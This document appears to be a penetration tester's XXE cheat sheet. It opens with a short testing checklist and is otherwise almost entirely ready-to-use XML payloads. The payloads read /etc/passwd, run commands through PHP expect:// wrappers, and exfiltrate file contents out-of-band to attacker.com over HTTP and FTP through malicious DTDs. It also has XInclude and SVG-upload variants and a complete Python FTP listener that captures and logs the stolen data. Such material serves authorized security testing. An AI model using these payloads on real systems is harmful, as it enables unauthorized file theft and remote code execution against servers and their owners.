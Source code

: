- [ ] Test with Collaborator using direct reference and parameter entities
- [ ] OAST DTD -> exfiltrate
	- [ ] Error messages
	- [ ] FTP exfiltration
- [ ] SVG image upload
- [ ] XInclude
- [ ] If PHP attempt RCE and PHP wrappers
- [ ] SSRF with XXE
XXE File Read
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
XXE File Read PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
RCE PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "expect://id"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### DTD Blind XXE
- Multi-line data exfiltration over HTTP can lead to parsing errors making it not possible to exfiltrate data from files -> Use FTP exfiltration.
- HTTP method is only for single-line file data exfiltration -> test with /etc/hostname
OAST detection
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
```
OAST detection parameter entities
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY % xxe SYSTEM "http://attacker.com/"> 
%xxe;]>
```
(PHP) OAST File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&content;</productId></stockCheck>
```
(PHP) OAST File Read parameter entity
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY &#x25; content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
  %content;
]>
```
Alternative: OAST File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://attacker.com/?content=%file;'>">
%oob;
%content;
```
Alternative: File Read Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
]>
```
OAST Error File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
### FTP DTD Exfiltration
- For multi-line file data exfiltration
OAST File Read parameter entity
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'ftp://attacker.com/%file;'>">
%oob;
%content;
```
OAST File Read Payload parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
]>
```
FTP server
Credit: https://medium.com/@p0lyxena/exploiting-a-difficult-out-of-band-xxe-via-ftp-connections-c8506f799e8b
```python
import socket  
import sys  
import argparse  
  
name = """  
=--------------------------------------=  
|  230 OOB || an Out-Of-Band XXE tool  |  
|    ____  _____  ___   ___  ____      |  
|   (___ \(__  / / _ \ / _ \|  _ \     |  
|     __) ) / / | | | | | | | |_) )    |  
|    / __/ (__ \| | | | | | |  _ (     |  
|   | |___ ___) ) |_| | |_| | |_) )    |m  
|   |_____|____/ \___/ \___/|____/     |  
|          by Corben Leo           |  
|                                      |  
|      - https://www.corben.io         |  
|      - https://hackerone.com/cdl     |  
|      - https://twitter.com/hacker_   |  
=--------------------------------------=  
"""  
  
print(name)  
  
# Setting up the FTP server  
parser = argparse.ArgumentParser(description='An Out-of-Band XXE tool by Corben Leo')  
args = parser.parse_args()  
  
HOST = '192.168.1.2'  
PORT = 21  
  
welcome = b'220 oob-xxe\n'  
ftp_catch_all_response = b'230 more data please!\n'  
ftp_user_response = b'331 hello world!\n'  
ftp_pass_response = b'230 my password is also hunter2!\n'  
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
  
def main():  
    try:  
        s.bind((HOST, PORT))  
    except socket.error as msg:  
        print('[+] ERROR: Bind failed. ')  
        sys.exit()  
  
    s.listen(10)  
    print('[+] 230OOB started on port: '+str(PORT))  
  
    conn, addr = s.accept()  
    print('[*] Connection from: '+addr[0]+"!")  
    conn.sendall(welcome)  
  
    while True:  
        data = conn.recv(1024)  
        ftp_command = data.split(b" ", 1)  
        response = {  
            'user': ftp_user_response,  
            'pass': ftp_pass_response,  
        }.get(ftp_command[0].lower(), ftp_catch_all_response)  
        conn.sendall(response)  
        line = data.decode('UTF-8')  
        line = line.replace("\n","").replace("CWD","")  
        print(line)  
        extract(line)  
    s.close()  
  
def extract(data):  
        fopen = open('./extracted.log', 'a')  
        fopen.write(data)  
        fopen.close()  
  
try:  
    main()  
except KeyboardInterrupt:  
    s.close()
```
### XInclude
Payload for file read, found server-side XML parsing
- Used when XML parsing is not done.
```XML
<foo+xmlns:xi="http://www.w3.org/2001/XInclude">+<xi:include+parse="text"+href="file:///etc/passwd"/></foo>
```
### SVG XXE
Xinclude
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
XML
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```
OAST XML
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```